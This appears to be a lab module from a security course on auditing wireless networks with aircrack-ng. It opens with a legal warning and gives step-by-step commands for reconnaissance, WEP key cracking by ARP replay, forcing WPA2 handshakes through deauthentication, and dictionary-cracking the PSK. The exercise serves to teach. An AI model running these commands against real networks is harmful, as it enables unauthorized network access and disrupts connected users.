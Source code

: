 ```yaml
---
title: Wireless
layout: module
---
```


# Hacking Wireless Networks

IMPORTANT!: Gaining access to networks without permission is considered
an illegal act or crime in most countries. Know the law and obey.

*Aircrack-ng* [http://www.aircrack-ng.org/](http://www.aircrack-ng.org/) is
a set of tools for auditing wireless networks. The goal of these
exercises is to introduce some of their capabilities. The man pages are
very thorough and are more than enough to complete the exercises without
\"cheating\". You are encouraged to find the solutions in the man pages.
Please pay attention to the large variety of features the toolset offers
as we will only be able to cover a tiny fraction.

**You will need to be root to use most of these utilities.**

## Exercise 1: Recon

### Task 1

Use *airodump-ng* to find our targets\' BSSIDs, channels, and security
settings given their ESSIDs: **seccon_wep** and **seccon_wpa**. Make
note of these details, you will need them later. Stop the process when
you are done.

In order to sniff a wireless network, the adapter needs to be put into
monitor mode. Some processes may interfere with the adapter while in
monitor mode.

{% capture code %}
airmon-ng check
{% endcapture %}
{% include copy-paste.html title="Airmon Check" code=code %}

List the processes that may interfere. It is best to kill those in
normal testing. **Do not kill any processes for this lab (e.g. dhclient
& wpa_supplicant).**

{% capture code %}
airmon-ng check kill
{% endcapture %}
{% include copy-paste.html title="Killing conflicting processes" code=code %}

This command would kill potentially interfering processes, but don\'t
use it for this lab.

Put the wireless interface wlan0 in monitor mode. A new interface
wlan0mon0 will be created.

{% capture code %}
airmon-ng start wlan0
{% endcapture %}
{% include copy-paste.html title="Configuring the wireless interface wlan0 in monitor mode." code=code %}

Use airodump-ng.

{% capture code %}
airodump-ng --essid seccon_wep --essid seccon_wpa wlan0mon
{% endcapture %}
{% include copy-paste.html title="Using airodump-ng" code=code %}

## Exercise 2 : Cracking WEP

### Task 1

Run airodump-ng to start capturing packets on the target network
utilizing WEP. Let this capture continue.\

{% capture text %}
<pre>
    airodump-ng --write $output_cap_file --channel $target_channel --bssid $target_bssid wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 2

Use aircrack-ng PTW (Pyshkin, Tews, Weinmann) method to crack the WEP
PSK.\

{% capture text %}
<pre>
       # -a 1 specifies we are cracking WEP
       aircrack-ng -a 1 [-b $target_bssid] $capture_file
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 3

Anywhere from 20k-60k IVs will be needed. Use aireplay-ng to spoof an
associated station and replay ARP frames to increase the data rate.

{% capture text %}
<pre>
      # -3 indicates replay ARP frames
      aireplay-ng -3 -b $target_bssid -h $spoofed_station_mac wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

## Exercise 3 : Obtaining the WPAv2 PSK

### Task 1

Use airodump-ng to capture a WPA handshake corresponding to a target
network.\

{% capture text %}
<pre>
      # Wait until the WPA handshake appears in the top line.
      airodump-ng --write $output_cap_file --channel $target_channel --bssid $target_bssid wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 2

If the handshake doesn\'t reveal itself passively, use aireplay-ng to
deauthenticate an associated station. This will force a handshake to
occur.\

{% capture text %}
<pre>
       # -0 1 indicates send one set of deauth packets
       aireplay-ng -0 1 -a $target_bssid -c $authed_station_mac wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 3

Use *aircrack-ng* to find the WPA PSK using the
dictionary */usr/share/wordlists/fasttrack.txt*.

{% capture text %}
<pre>
      # -a 2 specifies we are looking for a WPA handshake
      aircrack-ng -a 2 [-b $target_bssid] -w /usr/share/wordlists/fasttrack.txt $handshake_capture_file
</pre>
{% endcapture %}
{% include cheat.html text=text %}
